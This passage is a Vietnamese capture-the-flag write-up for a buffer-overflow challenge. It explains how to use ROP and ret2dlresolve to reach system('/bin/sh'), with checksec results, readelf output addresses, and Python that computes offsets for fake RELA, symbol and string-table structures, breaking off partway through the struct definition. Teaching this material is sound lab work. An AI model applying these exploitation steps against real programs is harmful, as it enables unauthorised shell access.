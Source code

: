 ### Ý TƯỞNG
- Lỗ hỏng ta dễ dàng thấy ở đây là Buffer Overflow trong hàm vuln() và điều này cho phép ta kiểm soát được stack, địa chỉ trả về của hàm và có thể là áp dụng kĩ thuật ROP để thực thi thiết lập các tham số thích hợp để thực thi kĩ thuật ret2dlresolve với mục tiêu là system("/bin/sh").

### KHAI THÁC
#### Checksec
![{C43C76D9-DFB7-46EC-A34D-E9A7AB5A74CC}](https://hackmd.io/_uploads/SkcdctE2kx.png)
Trừ `NX` được bật thì hầu như các phương pháp bảo mật đều được tắt và đặc biệt ở đây ta có thể thao túng `bảng GOT`, có thể điều khiển địa chỉ trả về và đồng thời là sử dụng các địa chỉ hàm của chương trình tùy ý thông qua `No canary` và `No PIE`.
#### Các tham số cơ bản:
Để thực thi kĩ thuật ret2dlresolve đầu tiên ta cần thiết lập các fake frame của Jmprel, Symtab, Strtab. Với relo_arg, sym_num và st_name thì ta cần đến các địa chỉ cơ bản của file là địa chỉ Jmprel, Symtab, Strtab gốc. Sử dụng:
```bash=
readelf -d <chall_name>
```
![{40FCB805-2D61-4879-8300-1E257575746C}](https://hackmd.io/_uploads/S1GGp_E3kx.png)
 Và ta có được các địa chỉ lần lượt là:
```
strtab = 0x3ff568
symtab = 0x3ff5e0
jmprel = 0x4005f0
```
Sau đó ta có thể dễ dàng tính toán các tham số cần thiết qua công thức đã biết, các địa chỉ như rela_addr, sym_addr, strtab_addr sẽ được lấy khi khảo sát một vùng nhớ (có thể ở càng cao càng tốt vì khi gọi resolver thì sẽ tốn khá nhiều dung lượng lưu trữ ở các vùng nhớ thấp hơn và càng cao sẽ tránh được việc ghi đè bảng GOT gây lỗi) có quyền read và write và phải thỏa mãn công thức như ở dưỡi với các tham số kết quả phải là số nguyên:
- Công thức:
```python=
relo_arg = (rela_addr - jmprel)//24
sym_num = (sym_addr - symtab)//24
st_name = (strtab_addr - strtab)
```
- Áp dụng:
```python=
rela_addr = 0x404df0
relo_arg = (rela_addr - jmprel)//24
print(hex(relo_arg))
sym_addr = 0x404e18
sym_num = (sym_addr - symtab)//24
print(hex(sym_num))
strtab_addr = sym_addr+24
st_name = (strtab_addr - strtab)
print(hex(st_name))
```
Lưu ý rằng khi tính toán ta cần in ra các tham số để xem các tham số có tính toán đúng hay không.
Và với các tham số trên khi chạy thử ta có các giá trị được tính toán:
```python=
relo_arg = 0x300
sym_num = 0x3ad
st_name = 0x58c8
```
#### Thiết lập các cấu trúc giả
##### 1. Fake RELA
Như ta đã biết một cấu trúc Rela có cấu trúc trong C như sau:
```c=
typedef struct {
  Elf64_Addr  r_offset;  /* Địa chỉ entry cần cập nhật */
  Elf64_Xword r_info;    /* Chứa type & symbol index */
```